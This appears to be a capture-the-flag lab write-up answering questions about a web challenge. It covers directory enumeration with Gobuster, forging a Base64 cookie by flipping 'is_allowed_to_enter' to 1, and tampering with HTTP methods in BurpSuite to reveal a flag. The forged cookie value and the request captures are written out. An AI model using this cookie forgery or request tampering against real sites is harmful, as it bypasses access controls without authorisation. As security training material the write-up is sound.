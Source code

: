 - Room 1 can be solved with directory enumeration. What is the name of the hidden directory?
  ```
  autodiscover
  ```
- What is another directory enumeration tool written in `Go`?
  ```
  Gobuster
  ```
- Room 2 deals with a cookie. What is the cookie encoded with?
  ```
  Base64
  ```
- The cookie needs to be modified to access Room 3. What value needs to be changed?
  
  Decode the Base64 cookie. Change the following from 0 to 1:
  ```
  {"is_allowed_to_enter": 0}
  ```
  Re-encode the modified value into Base64  
  ```
  eyJpc19hbGxvd2VkX3RvX2VudGVyIjogMX0=
  ```
  Replace the value of the 'pantry' cookie in the Cookies tab of the browser tools, then refresh the web page. The button to Room 3 will appear.
- What is a commonly used pentesting tool for intercepting and modifying HTTP requests?
  
  This program is pre installed in Kali Linux
  ```
  BurpSuite
  ```
  
- What HTTP methods does Room 3 accept? Making a HTTP request using one of the methods reveals a flag.
  
  Start a new BurpSuite session. Using the Proxy tool, turn on Intercept and select 'Open browser'.  
  Once the BurpSuite proxy browser has opened, navigate the URL for Room 3. The HTTP request will show up in the intercept tab in BurpSuite
  ```
  GET /5f106379cbda5f75215d54ed15ec26e0712c2262a9abe8b1b249980a0f2107df?apiPath=/609ab7b9aa350754009970c42b38b769667451685bfa00d5346070f75fe455c0 HTTP/1.1
  Host: 0.0.0.0:5000
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
  Accept-Encoding: gzip, deflate
  Accept-Language: en-US,en;q=0.9
  Connection: close
  ```
  On the HTTP request output, right click and select 'Send to Repeater'. Then, navigate to the Repeater tab.  
  In the 'Repeater' function, you can swap `GET` method with other HTTP methods, and then hit 'Send' to see if you get any interesting responses.  
  Using the `POST` method will give a 200 response.
  ```
  // request
  POST /5f106379cbda5f75215d54ed15ec26e0712c2262a9abe8b1b249980a0f2107df HTTP/1.1
  Host: 0.0.0.0:5000
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
  Accept-Encoding: gzip, deflate
  Accept-Language: en-US,en;q=0.9
  Connection: close

  ```